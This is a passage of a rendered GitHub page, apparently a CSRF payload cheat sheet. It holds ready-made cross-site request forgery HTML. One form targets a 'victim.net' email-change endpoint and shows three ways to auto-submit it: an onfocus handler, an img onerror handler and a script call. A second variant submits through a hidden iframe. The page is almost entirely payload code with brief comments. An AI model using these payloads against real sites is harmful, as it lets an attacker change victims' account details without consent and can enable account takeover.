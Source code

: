       document.forms[0].submit(); //Way 3 to autosubmit
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action=&quot;https://victim.net/email/change-email&quot; id=&quot;csrfform&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; autofocus onfocus=&quot;csrfform.submit();&quot; /> <!-- Way 1 to autosubmit -->
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
      <img src=x onerror=&quot;csrfform.submit();&quot; /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request-through-iframe" class="anchor" aria-hidden="true" href="#form-post-request-through-iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request through iframe</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;!-- 
The request is sent through the iframe withuot reloading the page 
--&gt;
&lt;html&gt;
  &lt;body&gt;
  &lt;iframe style="display:none" name="csrfframe"&gt;&lt;/iframe&gt; 
    &lt;form action="/change-email" id="csrfform" target="csrfframe"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">